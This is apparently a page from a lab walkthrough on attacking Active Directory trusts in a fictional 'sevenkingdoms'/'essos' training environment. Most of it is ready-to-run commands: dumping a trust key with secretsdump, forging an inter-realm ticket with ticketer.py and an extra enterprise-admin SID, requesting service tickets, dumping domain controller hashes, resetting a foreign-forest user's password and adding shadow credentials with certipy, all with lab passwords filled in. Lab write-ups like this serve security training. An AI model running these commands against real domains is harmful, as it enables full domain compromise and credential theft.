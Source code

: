 - The trust key can be found by targeting the netbios name of the domain on the ntds
```
secretsdump -just-dc-user 'SEVENKINGDOMS$' \
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```

- Now we got the trust key we can forge the ticket just like we done with the krbtgt user hash but this time we will set the spn : krbtgt/parent_domain
```
ticketer.py -nthash cef54bd576fc6054870d8d8cea5c069c \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 -spn krbtgt/sevenkingdoms.local trustfakeuser
```

- Now we will use the forged TGT to ask a ST on the parent domain
```
export KRB5CCNAME=/workspace/trusts/trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustfakeuser@sevenkingdoms.local -debug
```

- And now we can use our service ticket and connect with smbclient
```
export KRB5CCNAME=/workspace/trusts/trustfakeuser@sevenkingdoms.local@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
smbclient.py -k -no-pass trustfakeuser@kingslanding.sevenkingdoms.local
```

- or even dump secrets
`secretsdump -k -no-pass -just-dc-ntlm trustfakeuser@kingslanding.sevenkingdoms.local`


## Forest Trust (sevenkingdoms.local -> essos.local)
### Password reuse
- On a real environment this is really accurate. Dump the ntds of the domain you own and try to find the same users on the external forest domains.
- The lab didn’t have this behavior but it is really simple to exploit

### Foreign group and users
#### Sevenkingdoms to essos : group spys
-  Pick a user from the small council (by example petyer.baelish:@littlefinger@) and exploit with the spy group
```
net rpc password jorah.mormont -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
Enter new password for jorah.mormont: <here we enter P@ssword123>
```

- And verify
`cme smb 192.168.56.12 -u jorah.mormont -p 'P@ssword123' -d essos.local`

- We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)
```
certipy shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' \
 -dc-ip 192.168.56.12 -target meereen.essos.local -account 'jorah.mormont'

certipy auth -pfx jorah.mormont.pfx -username jorah.mormont -domain essos.local -dc-ip 192.168.56.12
```
